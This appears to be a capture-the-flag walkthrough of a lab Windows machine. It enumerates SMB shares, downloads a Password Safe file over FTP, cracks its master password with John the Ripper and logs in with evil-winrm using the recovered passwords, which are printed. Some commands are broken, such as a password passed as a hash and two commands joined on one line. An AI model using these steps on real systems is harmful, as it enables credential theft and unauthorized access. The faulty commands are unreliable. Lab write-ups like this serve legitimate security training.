










Now we can check if throw the benjamin user if can get a interesting directory
```bash
$ netexec smb 10.10.11.42 -u benjamin -p 'newP@ssword2022' --shares
```


As we saw in the nmap result, we see that the FTP port it was open, so we can try to access to ftp trhow the benjamin credentials. And download the file that we see.
```bash
$ ftp 10.10.11.42
```



Now we can check what kind of file we download.




If we search what kind of file is , we found the following:

```bahs
**Password Safe** is a secure **password manager** originally created by Bruce Schneier.  
It is used to store sensitive information such as:

- Usernames
- Passwords
- Secure notes
- Credentials for systems, services, or domains

All stored data is **encrypted** and protected by a **master password** (and optionally a key file).

---

## What is a `.psafe3` file?

A file with the extension **`.psafe3`** is a **Password Safe Version 3 database**.

Key characteristics:

- Uses **strong encryption**

- Cannot be read as plain text

- Requires the **master password** to be opened

- Commonly used on Windows systems
```
So we need open this file that requires a “master Password” to get the information. So we can use  John the Ripper tool to do that, but first of all we need the especific software to open the file once we got the password.

For install the software we can follow → https://github.com/pwsafe/pwsafe/blob/master/README.LINUX.md
```bash
$ sudo apt install passwordsafe
```
Once installed we can see the program but we don't the password to open our file that we got before




To get the master password we can use John the Ripper as I said before.
```bash
$ pwsafe2john Backup.psafe3 > hash.txt john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
pwsafe2john  → Its purpose is to extract the cryptographic data from a Password Safe database file and convert it into a format that John can process.

Backup.psafe3 → This is the Password Safe version 3 database file.

> →   This symbol redirects the output of the command.

hash.txt → This is the output file that stores the extracted hash information.

john → This is John the Ripper, a password cracking tool.

--wordlist=/usr/share/wordlists/rockyou.txt hash.txt → This option tells John to use a dictionary attack.



Now we know the master password: tekieromucho

We proceed to open the file



If we do right click in each user and select “Edit Entry” we can see each user and password.



```bash
alexander: UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
emily: UXLCI5iETUsIBoFVTj8yQFKoHjXmb
emma: WwANQWnmJnGV07WQN8bMS7FMAbjNur
```
If we try to get a shell with the every user to get a user flag with evil-winrm tool. In this case the root flag is in the Emily Descktop directory.
```bash
$ evil-winrm -i 10.10.11.42 -u 'emily' -H UXLCI5iETUsIBoFVTj8yQFKoHjXmb   
```

```bash
User Flag → 678708cbc4b13897f89998c44f2b0b3c
```

[Back](README.md)